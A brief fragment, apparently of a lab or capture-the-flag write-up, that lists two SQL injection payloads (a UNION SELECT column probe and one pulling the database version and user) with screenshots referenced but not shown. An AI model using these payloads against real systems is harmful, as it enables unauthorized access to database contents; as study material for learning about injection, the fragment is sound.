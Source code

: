 **PAYLOAD:**

```jsx
tom" UNION SELECT 1,2,3 -- -
```

![image.png](image%203.png)

![image.png](image%204.png)

**PAYLOAD:**

```jsx
tom" UNION SELECT 1,@@version,user() -- -
```

![image.png](image%205.png)
